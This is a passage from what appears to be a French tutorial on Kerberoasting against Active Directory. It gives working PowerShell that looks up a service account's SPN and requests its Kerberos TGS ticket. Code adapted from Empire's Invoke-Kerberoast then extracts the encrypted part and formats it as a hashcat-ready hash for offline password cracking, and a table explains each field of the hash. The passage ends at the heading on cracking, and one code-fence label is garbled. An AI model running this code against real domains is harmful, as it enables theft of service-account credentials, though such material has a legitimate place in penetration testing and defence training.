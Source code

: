 ```powershell
$domain = (Get-ADDomain).DNSRoot
$user = Get-ADUser smithjo -Properties servicePrincipalName
$sam = $user.SamAccountName
$spn = $user.servicePrincipalName[-1]
```

### Récupération du ticket TGS

On peut alors passer à la demande du ticket Kerberos en utilisant le SPN :

```powershell
$ticket = [System.IdentityModel.Tokens.KerberosRequestorSecurityToken]::New($spn)
```

### Récupération et traitement du hash

On va maintenant tenter d'extraire la partie chiffrée du ticket. Pour cela, je me suis servi du code disponible sur [Invoke-Kerberoast.ps1 · EmpireProject/Empire · GitHub](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1#L660).

```powershell
$ticketByteStream = $ticket.GetRequest()
$TicketHexStream = [System.BitConverter]::ToString($TicketByteStream) -replace '-'
$TicketHexStream -match 'a382....3082....A0030201(?<EtypeLen>..)A1.{1,4}.......A282(?<CipherTextLen>....)........(?<DataToEnd>.+)'
$etype = [Convert]::ToByte($Matches.EtypeLen, 16)
$cipherTextLen = [Convert]::ToUInt32($Matches.CipherTextLen, 16)-4
$cipherText = $Matches.DataToEnd.Substring(0,$cipherTextLen*2)
$hash = "$($cipherText.Substring(0,32))`$$($cipherText.Substring(32))"
```

Conversion du hash vers le format hashcat :

```powershell
$hashcatFormat = '$krb5tgs$' + $etype + '$*' + $sam + '$' + $domain + '$' + $spn + '*$' + $hash
$hashcatFormat | Set-Clipboard
```

Le hash obtenu ressemble alors à celui-ci :

```plainprésentement
$krb5tgs$23$*smithjo$contoso.com$MSSQLSvc/server.contoso.com*$abf9befd[...]f3ea6085
```

On y retrouve les informations suivantes :

Information | Explication
----------- | -----------
`krb5tgs` | Hash Kerberos TGS
`23` | Chiffrement utilisé : RC4-HMAC
`smithjo` | Le SamAccountName du compte cible (celui qui porte le SPN)
`contoso.com` | Le nom DNS du domaine Active Directory
`MSSQLSvc/server.contoso.com` | Le ServicePrincipalName qui a été utilisé
`abf9befd[...]f3ea6085` | Le hash du ticket, chiffré avec le mot de passe du compte `smithjo`

### Roasting du hash
